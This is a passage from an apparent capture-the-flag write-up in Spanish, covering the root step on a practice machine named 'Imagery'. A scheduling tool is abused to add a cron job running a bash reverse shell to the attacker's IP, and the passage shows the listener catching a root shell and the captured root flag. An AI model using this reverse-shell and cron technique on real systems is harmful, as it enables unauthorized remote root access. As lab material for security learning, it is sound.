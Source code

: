 Vemos que podemos crear un `crontab`, por lo que vamos aprovechar eso para hacer esto, pero antes de darle a enviar vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si lo ejecutamos...

```shell
auto add --schedule "* * * * *" --command "bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'" --name "testShell"
```

Info:

```
[2025-10-04 08:22:50] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-10-04 08:22:55] [INFO] System password verified successfully.
[2025-10-04 08:22:55] [INFO] Auto job 'testShell' (ID: a21245a5-042e-44ab-8596-9f10228e52ce) added successfully. The job will run according to schedule.
[2025-10-04 08:22:55] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true bash -c 'bash -i >& /dev/tcp/10.10.14.64/7755 0>&1'
```

Volvemos a donde tenemos la escucha y veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.11.88] 40014
bash: cannot set terminal process group (78587): Inappropriate ioctl for device
bash: no job control in this shell
root@Imagery:~# whoami
whoami
root
```

Vemos que ha funcionado y con esto seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
cf582205bdd0016edde2d7f399f81674
```
